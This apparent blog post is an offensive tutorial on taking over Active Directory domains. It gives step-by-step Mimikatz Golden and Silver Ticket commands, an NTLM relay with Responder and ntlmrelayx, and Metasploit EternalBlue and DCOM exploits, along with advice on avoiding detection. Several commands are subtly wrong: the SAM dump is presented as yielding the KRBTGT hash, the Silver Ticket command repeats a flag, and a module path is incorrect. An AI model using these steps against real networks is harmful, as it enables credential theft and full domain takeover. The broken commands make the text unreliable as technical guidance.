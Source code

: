 ```yaml
---
title: "Abusing Trusted Domain Controllers: From Privilege Escalation to Domain Domination"
published: 2025-04-20
description: "Exploiting misconfigurations and vulnerabilities in trusted Domain Controllers to escalate privileges and compromise the entire domain."
image: 'dc1.jpeg'
tags: []
category: 'Privilege Escalation'
draft: false
lang: 'ar-eng'
---
```


# Table of Contents

- [Abusing Trusted Domain Controller](#abusing-trusted-domain-controller)
  - [Key Concepts](#key-concepts)
  - [Methods](#methods)
    - [1. Golden Ticket Attack](#1-golden-ticket-attack)
    - [2. Silver Ticket Attack](#2-silver-ticket-attack)
    - [3. NTLM Relay Attack](#3-ntlm-relay-attack)
    - [4. Exploiting SMB and DCOM Vulnerabilities](#4-exploiting-smb-and-dcom-vulnerabilities)
  - [Important Notes](#important-notes)


# Abusing Trusted Domain Controller

A **Domain Controller (DC)** is the server responsible for managing Active Directory (AD) in a network. The **DC** stores and manages user credentials, permissions, and access control for all machines and users in the domain. **Abusing Trusted DC** refers to exploiting vulnerabilities or misconfigurations in the DC to escalate privileges, gain unauthorized access, or control the entire domain.

## Key Concepts

- **Active Directory (AD)**: A directory service that stores information about network resources (users, computers, etc.) and provides authentication and authorization.
- **Domain Admin / Enterprise Admin**: Users with the highest privileges in AD, who can control all aspects of the domain.
- **Kerberos**: A network authentication protocol used by AD to securely authenticate users and services.
- **NTLM**: A legacy authentication protocol used in Windows environments for authentication.
- **Trust Relationships**: DCs in a domain trust each other for authentication purposes. Exploiting this trust can allow attackers to escalate privileges.

## Methods

### 1. Golden Ticket Attack

- **Step 1: Obtain KRBTGT Hash**
  - The **KRBTGT account** is responsible for signing Kerberos tickets in Active Directory.
  - To create a Golden Ticket, you need to dump the **KRBTGT hash** from a compromised machine with high privileges (e.g., Domain Admin).
  - **Tool**: **Mimikatz**
  - **Command**: `mimikatz.exe "lsadump::sam" /inject`
    - This will dump the hashes from the local SAM (Security Accounts Manager) database.

- **Step 2: Generate the Golden Ticket**
  - Once you have the **KRBTGT hash**, you can generate a **Golden Ticket** that will allow you to authenticate as any user (typically a Domain Admin).
  - **Tool**: **Mimikatz**
  - **Command**:
  
  ```powershell
  mimikatz.exe "kerberos::golden /user:<username> /domain:<domain> /sid:<domain_sid> /rc4:<KRBTGT_hash>"
  ```
  
  - This command generates a Golden Ticket that can be used to impersonate any user in the domain, including Domain Admins.

- **Step 3: Pass the Golden Ticket**
  - Now that the Golden Ticket is generated, you can use it to authenticate to any service in the domain (e.g., SMB, RDP, etc.).
  - **Tool**: **Mimikatz**
  - **Command**:
  
  ```powershell
  mimikatz.exe "kerberos::ptt /ticket:<path_to_ticket_file>"
  ```

### 2. Silver Ticket Attack

- **Step 1: Obtain Service Account Hash**
  - To create a Silver Ticket, you need to compromise a service account hash (e.g., for SMB, SQL Server).
  - **Tool**: **Mimikatz**
  - **Command**: `mimikatz.exe "lsadump::sam" /inject`
    - This command will dump the hashes of service accounts.

- **Step 2: Generate the Silver Ticket**
  - Once you have the service account hash, you can generate a **Silver Ticket** for a specific service.
  - **Tool**: **Mimikatz**
  - **Command**:
  
  ```powershell
  mimikatz.exe "kerberos::golden /user:<username> /domain:<domain> /sid:<domain_sid> /rc4:<service_account_hash> /rc4:<target_service_name>"
  ```

- **Step 3: Pass the Silver Ticket**
  - Use the Silver Ticket to authenticate to the target service (e.g., SMB, RDP).
  - **Tool**: **Mimikatz**
  - **Command**:
  
  ```powershell
  mimikatz.exe "kerberos::ptt /ticket:<path_to_ticket_file>"
  ```

### 3. NTLM Relay Attack

- **Step 1: Set Up the NTLM Relay Attack**
  - **Tool**: **Responder** or **NTLMRelayX**
  - **Command**:
  
  ```bash
  python3 Responder.py -I <interface> -rd
  ```
  
  - This will start the **Responder** tool to capture NTLM authentication requests.

- **Step 2: Relay the NTLM Authentication**
  - When a victim machine tries to authenticate using NTLM, Responder will capture the request and relay it to a DC or another machine in the network.
  - **Tool**: **Responder** or **NTLMRelayX**
  - **Command**:
  
  ```bash
  ntlmrelayx.py -tf targets.txt -smb2support
  ```
  
  - This will relay the captured NTLM hash to a DC or other target machine.

- **Step 3: Gain Access to DC**
  - If successful, you will authenticate as the victim user, gaining access to the DC or other services in the domain.

### 4. Exploiting SMB and DCOM Vulnerabilities

- **Step 1: Exploit SMB Vulnerabilities (EternalBlue)**
  - **Tool**: **Metasploit** or **EternalBlue**
  - **Command**:
  
  ```bash
  msfconsole -x "use exploit/windows/smb/ms17_010_eternalblue"
  ```
  
  - This will exploit the **EternalBlue** vulnerability in SMB to gain remote code execution on the DC.

- **Step 2: Exploit DCOM Vulnerabilities**
  - **Tool**: **Metasploit** or **DCOM Exploits**
  - **Command**:
  
  ```bash
  msfconsole -x "use exploit/windows/dcom/ms03_026_dcom"
  ```
  
  - This will exploit a vulnerability in **DCOM** to escalate privileges and potentially take control of the DC.

---

## Important Notes:

1. **KRBTGT Hash**: Always ensure you have access to a high-privileged account to dump the **KRBTGT hash**.
2. **Golden/Silver Tickets**: These tickets should be handled carefully and used only when necessary to avoid detection.
3. **NTLM Relay**: This attack is effective in environments where NTLM authentication is still used.
4. **Exploit SMB/DCOM**: Always check for unpatched systems that may be vulnerable to these types of attacks.

**`Happy Hacking Broo`**

---